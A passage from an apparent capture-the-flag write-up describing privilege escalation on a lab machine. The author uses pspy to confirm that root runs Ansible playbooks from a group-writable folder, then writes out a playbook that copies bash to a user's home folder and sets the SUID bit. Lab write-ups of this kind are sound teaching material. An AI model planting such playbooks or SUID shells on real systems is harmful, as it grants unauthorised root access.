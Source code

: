 ```bash
  - name: Checking webapp service
    ansible.builtin.systemd:
      name: webapp
      enabled: yes
      state: started
```

They were a member of the 'staff' group. This group could write to '/opt/automation/tasks'. The folder already contained an [Ansible Playbook](https://docs.ansible.com/ansible/latest/playbook_guide/playbooks_intro.html).

I thought I might be able to create a playbook and get Ansible to run any commands I wanted. But first I had to check it was running. I downloaded [pspy](https://github.com/DominicBreuker/pspy) on the server and ran it.

```bash
2023/04/01 16:58:05 CMD: UID=0     PID=16285  | chmod u+x /root/.ansible/tmp/ansible-tmp-1680368285.048794-16270-218024435563957/ /root/.ansible/tmp/ansible-tmp-1680368285.048794-16270-218024435563957/AnsiballZ_command.py
2023/04/01 16:58:05 CMD: UID=0     PID=16286  | /bin/sh -c chmod u+x /root/.ansible/tmp/ansible-tmp-1680368285.048794-16270-218024435563957/ /root/.ansible/tmp/ansible-tmp-1680368285.048794-16270-218024435563957/AnsiballZ_command.py && sleep 0
2023/04/01 16:58:05 CMD: UID=0     PID=16287  |
2023/04/01 16:58:05 CMD: UID=0     PID=16288  | /bin/sh -c /usr/bin/python3 /root/.ansible/tmp/ansible-tmp-1680368285.048794-16270-218024435563957/AnsiballZ_command.py && sleep 0
2023/04/01 16:58:05 CMD: UID=0     PID=16289  | /usr/bin/python3 /root/.ansible/tmp/ansible-tmp-1680368285.048794-16270-218024435563957/AnsiballZ_command.py
2023/04/01 16:58:06 CMD: UID=0     PID=16290  |
2023/04/01 16:58:06 CMD: UID=0     PID=16291  |
2023/04/01 16:58:06 CMD: UID=0     PID=16292  | chmod u+x /root/.ansible/tmp/ansible-tmp-1680368284.948079-16251-136173806715512/ /root/.ansible/tmp/ansible-tmp-1680368284.948079-16251-136173806715512/AnsiballZ_systemd.py
2023/04/01 16:58:06 CMD: UID=0     PID=16293  | sleep 0
2023/04/01 16:58:06 CMD: UID=0     PID=16294  | /usr/bin/python3 /usr/bin/ansible-playbook /opt/automation/tasks/playbook_1.yml
```

It showed that the playbook was being executed as root. I created a new playbook that used the [shell module](https://docs.ansible.com/ansible/latest/collections/ansible/builtin/shell_module.html) to execute code.

I created a task that would copy bash to phil's home folder and set the suid bit.


```bash
phil@inject:~$ cat playbook_3.yml
- hosts: localhost
  tasks:
  - name: cp
    ansible.builtin.shell:
      cmd: cp /bin/bash /home/phil/
  - name: chmod
    ansible.builtin.shell:
      cmd: chmod u+s /home/phil/bash

phil@inject:~$ cp playbook_3.yml /opt/automation/tasks/
```
